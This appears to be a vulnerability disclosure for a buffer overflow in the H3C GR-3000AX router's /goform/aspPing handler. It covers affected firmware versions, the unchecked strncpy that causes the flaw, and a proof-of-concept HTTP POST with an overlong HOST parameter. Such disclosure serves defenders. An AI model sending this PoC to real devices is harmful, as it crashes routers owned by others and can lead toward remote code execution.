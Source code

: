 # Information



**Vendor of the products:**   New H3C Technologies Co., Ltd.

**Vendor's website:** [新华三 - 融绘数字未来，共享美好生活](https://www.h3c.com/cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** H3C GR-3000AX

**Affected firmware version:** <=100R006

**Firmware download address:** [download](https://www.h3c.com/cn/Home/Agreement//default.htm?t=H3C%20SWBRW1A0V100R006%20%E8%BD%AF%E4%BB%B6%E7%89%88%E6%9C%AC%E5%8F%8A%E8%AF%B4%E6%98%8E%E4%B9%A6&s=11006624)

# Overview

H3C Mini router H3C GR-3000AX has a serious buffer overflow vulnerability. By routing/goform/aspPing and properly controlling the param field, a buffer overflow can be caused, resulting in a denial of service attack or even remote code execution. Specifically triggered by strncpy(s1, s + 5, n);

# Vulnerability details

Here is the location where the specific function is executed

![image-20250414234234437](6/image-20250414234234437.png)

There is no reasonable check on the length of the copy, resulting in a buffer overflow when copying.

![image-20250414234545914](6/image-20250414234545914.png)

# POC

```
POST /goform/aspPing HTTP/1.1
Host: 192.168.124.1
Content-Length: 239
Cache-Control: max-age=0
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/mobile_access_net.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

HOST=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&bbbbb&INTF=qqqq
```

